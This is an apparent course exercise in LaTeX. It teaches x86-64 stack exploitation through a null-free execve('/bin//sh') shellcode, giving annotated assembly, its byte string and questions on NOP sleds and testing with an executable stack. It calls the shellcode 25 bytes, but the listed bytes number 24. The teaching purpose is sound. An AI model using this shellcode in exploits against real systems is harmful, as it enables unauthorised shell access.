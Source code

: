 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{rappel}
\medskip
\textbf{Null byte constraint:} C string manipulation functions (\texttt{strcpy}, \texttt{gets}, etc.) stop at the first \texttt{0x00} byte. Therefore, the shellcode must contain \textbf{no null bytes}.
\end{rappel}

\medskip
Here is a 25-byte x86-64 shellcode that executes \texttt{execve("/bin//sh", NULL, NULL)}:

\begin{lstlisting}[style=AsmStyle,title=Shellcode execve -- 25 bytes]
xor    rsi, rsi               ; rsi = 0 (argv = NULL)
push   rsi                    ; push 0 (string terminator)
movabs rdi, 0x68732f2f6e69622f ; rdi = "/bin//sh"
push   rdi                    ; push "/bin//sh" onto the stack
push   rsp                    ; push the address of the top of the stack
pop    rdi                    ; rdi = pointer to "/bin//sh"
xor    rdx, rdx               ; rdx = 0 (envp = NULL)
mov    al, 59                 ; rax = 59 (execve syscall number)
syscall                       ; execve system call
\end{lstlisting}

Byte representation:
\begin{lstlisting}[style=GDBStyle]
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68
\x57\x54\x5f\x48\x31\xd2\xb0\x3b\x0f\x05
\end{lstlisting}

\begin{enumerate}
\item[\textbf{2a)}] For each instruction in the shellcode above, explain its role in constructing the \texttt{execve("/bin//sh", NULL, NULL)} call.

\item[\textbf{2b)}] Why do we use \texttt{xor rsi, rsi} instead of \texttt{mov rsi, 0} to zero a register? What problem would \texttt{mov rsi, 0} cause? (Hint: examine the opcodes with \texttt{objdump} or an online assembler.)

\item[\textbf{2c)}] Explain the concept of the \textbf{NOP sled} (\texttt{0x90} = \texttt{NOP} instruction). Draw a diagram showing why we point to the middle of the NOP sled rather than exactly at the beginning of the shellcode.

\item[\textbf{2d)}] Compile and test the program \texttt{test\_shellcode.c}:
\begin{lstlisting}[style=GDBStyle]
gcc -z execstack -o test_shellcode test_shellcode.c
./test_shellcode
\end{lstlisting}
What happens? Type \texttt{exit} to quit the obtained shell.
\end{enumerate}


\end{exercice}
\end{document}
